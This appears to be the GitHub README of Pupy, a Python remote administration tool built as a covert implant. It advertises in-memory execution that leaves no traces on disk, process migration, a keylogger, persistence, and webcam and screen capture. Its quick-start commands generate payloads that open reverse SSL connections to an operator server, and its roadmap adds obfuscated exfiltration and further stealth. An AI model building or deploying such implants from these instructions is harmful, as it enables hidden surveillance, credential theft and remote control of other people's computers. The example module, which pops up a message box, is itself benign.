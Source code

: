 # Pupy
Pupy is an opensource, multi-platform Remote Administration Tool written in Python. On Windows, Pupy uses reflective dll injection and leaves no traces on disk.

## Features :
- On windows, the Pupy payload is compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
- Pupy can reflectively migrate into other processes
- Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd). The imported python modules do not touch the disk. (.pyd mem import currently work on Windows only, .so memory import is not implemented). 
- modules are quite simple to write and pupy is easily extensible.
- Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
  - we can also access remote objects interactively from the pupy shell and even auto completion of remote attributes works !
- communication channel currently works as a ssl reverse connection, but a bind payload will be implemented in the future
- all the non interactive modules can be dispatched on multiple hosts in one command
- Multi-platform (tested on windows 7, windows xp, kali linux, ubuntu)
- modules can be executed as background jobs
- commands and scripts running on remote hosts are interruptible
- auto-completion and nice colored output :-)
- commands aliases can be defined in the config

## Implemented Modules :
- migrate
  - inter process architecture injection also works (x86->x64 and x64->x86)
- keylogger
- persistence
- screenshot
- webcam snapshot
- in memory execution of PE exe both x86 and x64 :)
- command execution
- download
- upload
- socks5 proxy
- local port forwarding
- interactive shell (cmd.exe, /bin/sh, ...)
- interactive python shell
- shellcode exec (thanks to @byt3bl33d3r)

##Quick start
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
### generate/run a payload
#### for Windows
```bash
./pupygen.py 192.168.0.1 -p 443 -t exe_x86 -o pupyx86.exe
```
you can also use -t dll_x86 or dll_x64 to generate a reflective DLL and inject/load it by your own means.
#### for Linux
```bash
pip install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```
you can also build a single binary with pyinstaller :
```bash
pyinstaller --onefile /full_path/pupy/client/reverse_ssl.py
```

#### for MAC OS X
```bash
easy_install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```
you can also build a single binary with pyinstaller (but you can't "cross-compile", pyinstaller currently only support this from osx):
```bash
pyinstaller --onefile /full_path/pupy/client/reverse_ssl.py
```

### start the server
1. eventually edit pupy.conf to change the bind address / port
2. start the pupy server :
```bash
./pupysh.py
```

### Some screenshots
#####list connected clients
![screenshot1](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr1.png "screenshot1")
#####help
![screenshot3](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/help.png "screenshot3")
#####execute python code on all clients
![screenshot2](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr2.png "screenshot2")
#####execute a command on all clients, exception is retrieved in case the command does not exists
![screenshot4](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr3.png "screenshot4")
#####use a filter to send a module only on selected clients
![screenshot5](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/filters.png "screenshot5")
#####migrate into another process
![screenshot6](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/migrate.png "screenshot6")
#####interactive shell
![screenshot7](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/interactive_shell.png "screenshot7")
#####interactive python shell
![screenshot8](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/pyshell.png "screenshot8")
#####upload and run another PE exe from memory
![screenshot9](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/memory_exec.png "screenshot9")
#####list available modules (the list is not up to date)
![screenshot10](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/list_modules.png "screenshot10")

##Example: How to write a MsgBox module
first of all write the function/class you want to import on the remote client  
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py 
```python
import ctypes
import threading

def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()
```
then, simply create a module to load our package and call the function remotely
```python
class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	@windows_only
	def is_compatible(self):
		pass

	def run(self, args):
		self.client.load_package("pupwinutils.msgbox")
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")

```

## Dependencies
rpyc (https://github.com/tomerfiliba/rpyc)

##Roadmap and ideas
Some ideas without any priority order
- support for https proxy
- bind instead of reverse connection
- add offline options to payloads like enable/disable certificate checking, embed offline modules (persistence, keylogger, ...), etc...
- integrate scapy in the windows dll :D (that would be fun)
- work on stealthiness and modules under unix systems
- mic recording
- socks5 udp support
- remote port forwarding
- perhaps write some documentation
- The backdoor factory ?
- Impacket ?
- exfiltration through obfsproxy obfuscated network stream ?
- ...
- any cool idea ?

## FAQ
> Does the server works on windows ?

Yes but it has not really been tested and it may be unstable
> I can't install it how does it work ?

pip install rpyc
> hey c4n y0u add a DDOS module plzz?

No.

## Contact
by mail: contact@n1nj4.eu  
on Twitter: [Follow me on twitter](https://twitter.com/n1nj4sec)  
[![Join the chat at https://gitter.im/n1nj4sec/pupy](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/n1nj4sec/pupy?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)  
If some of you want to participate or send me a feedback, don't hesitate :-)
 
